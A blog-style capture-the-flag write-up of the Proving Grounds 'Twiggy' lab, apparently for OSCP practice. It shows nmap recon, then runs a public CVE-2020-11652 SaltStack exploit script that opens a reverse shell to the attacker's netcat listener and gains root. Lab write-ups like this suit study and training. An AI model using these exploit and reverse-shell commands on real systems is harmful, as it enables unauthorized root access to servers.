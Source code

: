 ```yaml
---
date: '2024-09-06'
before : '2024-09-04'
after : '2024-09-06'
title: 'OSCP Prep: Proving Grounds : Twiggy'
categories: ['C-SEC', 'proving_grounds', 'full-machine', 'ENG']
summary: 'Solving Twiggy machine from Proving Grounds'
thumbnail: '../contentImages/twiggy/twiggy-1.png'
---
```

## 0. Machine Info

Twiggy is an medium community-rated machine from Proving Grounds, maybe little bit harder than other easy machines but still easy enough.


> Nothing more to say, let's dive into the machine!


## 1. Recon

Starting with nmap scan

```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -T4 -p- -v 
\Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:20 EDT
Initiating Ping Scan at 02:20
SYN Stealth Scan Timing: About 51.50% done; ETC: 02:22 (0:00:57 remaining)
Completed SYN Stealth Scan at 02:22, 94.33s elapsed (65535 total ports)
Nmap scan report for 192.168.135.62
Host is up (0.050s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http-alt

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 94.48 seconds
           Raw packets sent: 131137 (5.770MB) | Rcvd: 376 (67.394KB)

```
- Port 22
```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -p22 -A -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:33 EDT
Nmap scan report for 192.168.135.62
Host is up (0.025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
|_  256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|5.X (91%), Crestron 2-Series (86%), HP embedded (85%), Oracle VM Server 3.X (85%)
OS CPE: cpe:/o:linux:linux_kernel:3.13 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5.1 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:oracle:vm_server:3.4.2 cpe:/o:linux:linux_kernel:4.1
Aggressive OS guesses: Linux 3.13 (91%), Linux 3.10 - 4.11 (90%), Linux 3.2 - 4.9 (90%), Linux 5.1 (90%), Linux 3.18 (88%), Crestron XPanel control system (86%), Linux 3.16 (86%), HP P2000 G3 NAS device (85%), Oracle VM Server 3.4.2 (Linux 4.1) (85%)
No exact OS matches for host (test conditions non-ideal).

```
- Port 80
```
┌──(hosan㉿kali)-[~/pg/twiggy]
└─$ sudo nmap 192.168.135.62 -p80 -A -sC -sV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:34 EDT
Nmap scan report for 192.168.135.62
Host is up (0.026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.16.1
|_http-title: Home | Mezzanine
|_http-server-header: nginx/1.16.1
```
- Port 4505, 4506, 8000
```
┌──(hosan㉿kali)-[~]
└─$ sudo nmap 192.168.135.62 -p4505,4506,8000 -A -sC -sV

[sudo] password for hosan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-06 02:34 EDT
Nmap scan report for 192.168.135.62
Host is up (0.025s latency).

PORT     STATE SERVICE VERSION
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.16.1
|_http-title: Site doesn't have a title (application/json).

```
So we have 2 webapps (80, 8000), DNS, zmtp and ssh. Let's start with enumeration

## 2. Enumeration

Since we don't have any domain name it will be hard to enumerate DNS. Let's start with zmtp

- zmtp service

After googling for a while:

https://packetstormsecurity.com/files/157678/SaltStack-Salt-Master-Minion-Unauthenticated-Remote-Code-Execution.html

```
┌──(hosan㉿kali)-[~]
└─$ searchsploit saltstack
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Saltstack 3000.1 - Remote Code Execution                                                      | multiple/remote/48421.txt
---------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```
Let's try it later. Moving to WebApp

- Webapp 

Visiting port 8000, I found following json-format output:

![levram-2](../contentImages/twiggy/twiggy-1.png)

Quick google search reveals us what this is.

>https://github.com/saltstack/salt/issues/52981


- Port 80

Nothing special, just a simple website powered by 8000 maybe.


## 3. Initial Foothold / Root

So I found only one CVE which could be useful, and somehow port 8000 and 80 is pointing to zmtp salt, which is a strong evidence that we should try this out.


At least, we found same keyword "salt" from both services.


> CVE-2020-11652

So let's dig deeper!

I downloaded Following Script:

```
┌──(hosan㉿kali)-[~/pg/twiggy/CVE-2020-11652]
└─$ python3 CVE-2020-11652.py --master 192.168.135.62 --port 4506 -lh 192.168.45.175 -lp 80 --exec-choose master
/home/hosan/.local/lib/python3.11/site-packages/salt/transport/client.py:28: DeprecationWarning: This module is deprecated. Please use salt.channel.client instead.
  warn_until(
[+] Checking salt-master (192.168.135.62:4506) status... 
[+] Read root_key... root key: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
Got response for attempting master shell: {'jid': '20240906074412689156', 'tag': 'salt/run/20240906074412689156'}. Looks promising!
Got response for attempting master shell: {'jid': '20240906074412729080', 'tag': 'salt/run/20240906074412729080'}. Looks promising!

```
Error popped up, but I still got root shell.

```
┌──(hosan㉿kali)-[~]
└─$ nc -lvnp 80  
listening on [any] 80 ...
connect to [192.168.45.175] from (UNKNOWN) [192.168.135.62] 55068
bash: no job control in this shell
[root@twiggy root]# 
```

## 4. Review

There are several things I learned:

1. Avoid using msfconsole.
2. Try various exploits from github with various options.
    -> For this, you will need to understand roughly what this exploit does 
4. Don't get frustrated!

## 5. Source

- Proving Grounds
- Me!